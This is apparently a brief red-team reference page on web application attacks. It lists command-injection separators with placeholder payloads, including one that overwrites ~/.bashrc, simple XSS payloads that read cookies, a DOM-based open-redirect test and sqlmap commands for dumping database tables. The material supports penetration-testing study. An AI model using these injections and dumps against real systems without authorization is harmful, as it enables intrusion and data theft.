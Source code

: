 # Red Team

## Information Gathering

**>> [Z_Networks/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Z_Networks/Web%20Application.md)**

**>> [1_Reconnaissance/Active/Web Application](https://github.com/p-arrow/RedTeam-Guide/blob/main/1_Reconnaissance/Active/Web%20Application.md)**


<br />

## Exploitation

### 1) Command Injection

#### Command Injection into available input masks
- Sequential: `/bin/exploit ; malicious_code`
- Pipeline: `/bin/exploit | malicious_code` (use output of exploit as input for malicious_code)
- Substitution: `/bin/exploit 'malicious_code'` (output of malicious_code as arg to exploit)
- Substitution: `/bin/exploit $(malicious_code)` (output of malicious_code as arg to exploit)
- Redirection: `/bin/exploit > ~/.bashrc` (overwrite bashrc)

### 2) XSS
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

#### Quick & Dirty:
     - `<script>alert("XSS LEAK")</script>`
     - `<script>alert(document.cookie)</script>`

#### DOM Based URL Redirection
- Look for `https://example.com/#dashboard`
- The value after `#` is accessible by Javascript
- Use `window.location.hash`
- If URL Redirection is in place you can test if a redirection to an external site is possible
- Enter `https://example.com/#www.externalsite.com`
- Activate the redirection via Javascript
- `window.location = window.location.hash.substr(1)`: use substr() to remove the '#'
- Following mitigations exist:
   - A) URL Whitelisting: `https://example.com/redirect?externalPage=1` or `https://example.com/redirect?page=dashboard`
   - B) REGEX

### SQLi

#### sqlmap
```
--> HTTP POST request: (after interception) save request to file (Burpsuite)
--> sqlmap -r request -p password (-p = analyze Parameter from POST method)
--> sqlmap -r request -D [database] --tables
--> sqlmap -r request -D [database] -T [table] --dump
--> -p "Parameter" -u "url" --tables
--> -p "Parameter" -D [DBMS] -T [Table] --dump -u "url"
```
